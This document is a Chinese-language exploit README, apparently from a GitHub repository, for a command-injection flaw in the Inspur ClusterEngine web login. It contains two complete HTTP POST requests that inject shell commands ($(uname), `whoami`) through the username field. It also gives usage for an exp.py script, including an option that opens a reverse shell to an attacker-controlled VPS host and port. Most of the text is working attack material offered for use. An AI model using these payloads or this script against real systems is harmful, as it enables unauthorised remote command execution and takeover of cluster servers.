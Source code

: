 

# 浪潮 ClusterEngine命令执行

## 漏洞简介

​	浪潮集群管理ClusterEngine是专门为浪潮天梭系列HPC产品定制的一款作业管理软件。在web登录界面，通过精心构造后的命令，可执行任意命令。造成命令执行漏洞

## 漏洞复现

POC

执行uname

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); $(uname)
```

![1](./img/1.png)

执行whoami

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); `whoami`
```

![1](./img/2.png)

## 脚本使用

使用帮助：

```bash
python3 exp --help
```

![1](./img/3.png)

检测指定url是否存在漏洞

```bash
python3 exp.py -u http://host:port
```

![1](./img/4.png)

反弹目标shell

```bash
python3 exp.py -u url -l vps-host -p vps-port
```

![1](./img/5.png)

